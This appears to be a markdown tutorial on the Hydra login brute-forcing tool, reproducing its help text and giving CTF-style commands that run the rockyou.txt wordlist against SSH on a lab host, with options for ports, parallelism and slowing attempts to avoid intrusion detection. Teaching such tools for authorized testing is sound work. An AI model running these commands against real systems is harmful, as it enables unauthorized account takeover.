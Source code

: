 # hydra

Hydra is a very powerful tool to brute force a system. You can provide it with a wordlist to try for the username or password. It will run the attempts in parrallel. Hydra is also aware of many different services and protocols. You can use this same tool to brute force ssh, ftp, PostgreSQL, smb and more. Some tools like community edition of Burp Suite rate limits your login attempts and so understanding how to use Hydra can save you from purchasing a Burp Suite license.

## Usage

Running `hydra -h` provided the following output:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -q        do not print messages about connection errors
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
These services were not compiled in: afp ncp oracle sapr3.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

## Examples

The following examples are ones that I have used in capture the flag exercises. The wordlists that are provided are ones that are found on Kali unless otherwise specified.

### ssh

If a system is vulnerable to an ssh brute force (meaning if you type `ssh target_machine` and it asks for a password) and you have either a username or password, hydra can help you gain access.

We have found the username `bob` is a user on the machine with an ip address of `10.10.1.1`. We want to use the `rockyou.txt` wordlist stored in the `/usr/share/wordlists` directory. The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh:10.10.1.1`

Hydra will then use go through each of the entries in the wordlist and report if any of the entries worked. The output will look like the following:

`[22][ssh] host: 10.10.1.1    login: bob     password: 123456`

### Options

Because systems like Linux are so configurable, capture the flag events will configure services in many different ways so that you have to read the manual for different tools you are using. Below are some options are useful to know about.

#### -s PORT

Sometimes a service is running on a different port. You can use this option to let hydra know that the service isn't using the standard port for that service. For example, if ssh was running on port 9000 instead of the usual 22, you would run the following:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -s 9000`

#### -v and -vV

Sometimes you want to make sure things are running as you were intending them to run. Maybe you need a sanity check to make sure you got the syntax correct. The verbose options can help with that. The `-v` option will add output lines that start with `[VERBOSE]` or `[STATUS]`, making the output more verbose. The `-V` option will add output lines that start with `[ATTEMPT]` that show each attempt. If you would like to use either one, the sytax is the following:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -v`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -V`

You can also use them together using:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -vV`

#### -c TIME

Sometimes you know that you need to rate limit your login attempts due to a network intrusion detection system or perhaps the server you are brute forcing naturally limits your login attempt rates. In either case you can specify the wait time per login attempt. Each thread will use this option. Here is the syntax to wait 3 seconds between each attempt:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -c 3`

#### -t TASKS

If you are trying to brute force a single target, you can specify the maximum number of connections for that target. This can be really handy if your machine and the target have a lot of resources and can handle the load. By default, this number is 16. In this example I am going to double the connections. Here is the syntax I used to change it:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -t 32`